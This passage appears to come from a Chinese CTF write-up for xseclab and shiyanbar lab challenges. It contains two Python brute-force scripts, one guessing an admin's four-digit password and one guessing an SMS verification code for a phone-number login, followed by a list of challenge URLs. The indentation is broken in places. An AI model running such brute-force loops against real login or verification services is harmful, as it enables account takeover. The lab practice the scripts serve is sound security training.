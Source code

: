 url = "http://lab1.xseclab.com/vcode2\_a6e6bac0b47c8187b09deb20babc0e85/login.php"  
req = requests.session()  
header = {"Cookie":"PHPSESSID=3c39940da50b514038b3e9971ee5f57e"}  
    
for pwd in xrange(1000,10000):  
     data={'username':'admin','pwd':pwd,'vcode':''}  
     ret = req.post(url, data=data, headers=header)  
       
     if 'error' not in ret.text:  
        print ret.text  
        print "good: password is:" + str(pwd)  
        break  
         else:  
        print "try:" + str(pwd) + " and result is :"+ ret.text  
```


[http://lab1.xseclab.com/vcode3\_9d1ea7ad52ad93c04a837e0808b17097/index.php ](http://lab1.xseclab.com/vcode3\_9d1ea7ad52ad93c04a837e0808b17097/index.php ) 跟上面一样的脚本

[http://lab1.xseclab.com/vcode6\_mobi\_b46772933eb4c8b5175c67dbc44d8901/
](http://lab1.xseclab.com/vcode6\_mobi\_b46772933eb4c8b5175c67dbc44d8901/
)爆破再爆破，点击验证码再运行脚本哦，跟着获得另一个手机号，再获取验证码，再修改手机号再运行脚本


```
import requests  
   
url = "http://lab1.xseclab.com/vcode6\_mobi\_b46772933eb4c8b5175c67dbc44d8901/login.php"  
req = requests.session()  
header = {"Cookie":"PHPSESSID=61556a5b2a6c2a03a2f35b199cbb5364"}  
for vcode in xrange(100,1000):  
      data={'username':'13388886666','vcode':vcode, 'Login':'submit'}  
     \# data={'username':'13399999999','vcode':vcode, 'Login':'submit'}  
    ret = req.post(url, data=data, headers=header)         
     if 'error' not in ret.text:  
        print ret.text  
        print "good: vcode is:" + str(vcode)  
        break  
	    else:  
       print "try:" + str(vcode) + " and result is :"+ ret.text  
```

参考：http://blog.csdn.net/u012763794/article/details/50959166

[1]:	http://lab1.xseclab.com/base1_4a4d993ed7bd7d467b27af52d2aaa800/index.php
[2]:	http://lab1.xseclab.com/base66082c908819e105c378eb93b6631c4d3/index.php
[3]:	http://lab1.xseclab.com/base1%5C_0ef337f3afbe42d5619d7a36c19c20ab/index.php
[4]:	http://lab1.xseclab.com/base1%5C_0ef337f3afbe42d5619d7a36c19c20ab/index.php
[5]:	http://lab1.xseclab.com/base1%5C_0ef337f3afbe42d5619d7a36c19c20ab/index.php
[6]:	http://lab1.xseclab.com/base7%5C_eb68bd2f0d762faf70c89799b3c1cc52/index.php
[7]:	http://ctf1.shiyanbar.com/basic/catch/
[8]:	http://lab1.xseclab.com/base8%5C_0abd63aa54bef0464289d6a42465f354/index.php
[9]:	http://lab1.xseclab.com/base10%5C_0b4e4866096913ac9c3a2272dde27215/index.php
[10]:	http://lab1.xseclab.com/xss1%5C_30ac8668cd453e7e387c76b132b140bb/index.php
[11]:	http://ctf1.shiyanbar.com/basic/js/index.asp
[12]:	http://lab1.xseclab.com/base12%5C_44f0d8a96eed21afdc4823a0bf1a316b/index.php
[13]:	http://ctf5.shiyanbar.com/DUTCTF/1.html
[14]:	http://lab1.xseclab.com/realxss1%5C_f123c17dd9c363334670101779193998/index.php
[15]:	http://lab1.xseclab.com/realxss1%5C_f123c17dd9c363334670101779193998/index.php
[16]:	http://lab1.xseclab.com/realxss3%5C_9b28b0ff93d0b0099f5ac7f8bad3f368/index.php
[17]:	http://ctf8.shiyanbar.com/aspaudit/
[18]:	http://ctf8.shiyanbar.com/phpaudit/
[19]:	http://ctf1.shiyanbar.com/web/4/index.php
[20]:	http://ctf5.shiyanbar.com/DUTCTF/index.php
```

[21]:	http://ctf1.shiyanbar.com/web/5/index.php
[22]:	http://ctf4.shiyanbar.com/web/false.php
[23]:	http://ctf4.shiyanbar.com/web/Session.php
[25]:	http://ctf4.shiyanbar.com/web/Session.php
[26]:	http://ctf5.shiyanbar.com:8080/9/asp.asp
[27]:	http://ctf5.shiyanbar.com/8/index.php?id=1
[28]:	http://lab1.xseclab.com/sqli2%5C_3265b4852c13383560327d1c31550b60/index.php
[29]:	http://lab1.xseclab.com/sqli3%5C_6590b07a0a39c8c27932b92b0e151456/index.php
[30]:	http://lab1.xseclab.com/sqli4%5C_9b5a929e00e122784e44eddf2b6aa1a0/index.php?id=1
[31]:	http://lab1.xseclab.com/sqli5%5C_5ba0bba6a6d1b30b956843f757889552/index.php?start=0&num=1
[32]:	http://ctf4.shiyanbar.com/web/10.php
[35]:	http://ctf4.shiyanbar.com/web/10.php